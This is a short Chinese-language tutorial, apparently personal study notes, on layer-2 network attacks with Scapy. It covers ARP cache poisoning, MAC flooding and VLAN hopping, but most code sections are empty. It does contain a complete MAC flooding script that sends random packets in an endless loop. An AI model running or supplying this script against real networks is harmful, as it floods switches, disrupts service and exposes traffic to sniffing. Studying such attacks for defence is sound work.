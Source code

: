 # 综述

osi-2: 在以太网中MAC地址为寻址的包作出响应。

模块：Scapy，可以生成OSI所有层的包。比如，ARP 、 IP/ICMP 、TCP/UDP 、 DNS/DHCP，以及不常用的协议，BOOTP, GPRS, PPPoE, SNMP, Radius, Infrared, L2CAP/HCI, EAP。

## ARP缓存投毒

起因：

IP包在发送之前要通过ARP协议找到目的地址的MAC.多数操作系统都可以响应自己从未执行查询的包。

实现：将请求方的MAC地址作为查询结果，对其进行返回

代码：

```python

```

## ARP观察者

## MAC洪水攻击

```python
#!/usr/bin/python
import sys
from scapy.all import *

packet = Ether(src=RandMAC("*:*:*:*:*:*"), 
                dst=RandMAC("*:*:*:*:*:*")) / \
         IP(src=RandIP("*.*.*.*"), dst=RandIP("*.*.*.*")) / \
         ICMP()

if len(sys.argv) < 2:
    dev = "eth0"
else:
    dev = sys.argv[1]

print("Flooding net with random packets on dev " + dev)

sendp(packet, iface=dev, loop=1)
```

## VLAN跳跃攻击

```python
```

